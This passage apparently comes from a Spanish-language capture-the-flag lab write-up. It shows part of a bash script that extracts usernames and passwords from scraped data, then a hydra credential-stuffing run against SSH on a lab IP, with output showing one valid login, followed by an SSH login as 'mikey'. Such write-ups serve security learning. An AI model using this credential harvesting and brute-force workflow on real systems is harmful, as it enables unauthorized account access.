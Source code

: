 ```bash
    passwords=$(echo "$last_title" | grep -o "'password': '[^']*'" | sed "s/'password': '\([^']*\)'/\1/g")

    while IFS= read -r email && IFS= read -r p <&3; do
        if [[ -n "$email" && -n "$p" ]]; then
            username=$(echo "$email" | awk -F'@' '{print $1}')
            echo "${username}:${p}" >> "$all_users_file"
        fi
    done < <(echo "$emails") 3< <(echo "$passwords")
    
    sleep 0.5
done

echo "=== CREDENCIALES ENCONTRADAS ==="
sort -u "$all_users_file"

rm -f "$temp_file" "$all_users_file"
```

* ejecutamos el script y obtenemos credenciales

<img width="1600" height="322" alt="image (1)" src="https://github.com/user-attachments/assets/0c2a86ad-2892-4fd8-8510-96b98b8a3e95" />


ahora voamos a testear si alguno tiene acceso a `ssh` asi que guardamos las credenciales en un archivo para pasarlo a `hydra`

```bash
hydra -C credenciales.txt ssh://10.10.11.85
```
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-19 23:19:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries, ~2 tries per task
[DATA] attacking ssh://10.10.11.85:22/
[22][ssh] host: 10.10.11.85   login: **********   password: ***********
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-19 23:19:50
```

* Obtenida las credenciales validas accedemos via `ssh`

```bash
ssh mikey@10.10.11.85
```

## Escalada

### User mikey
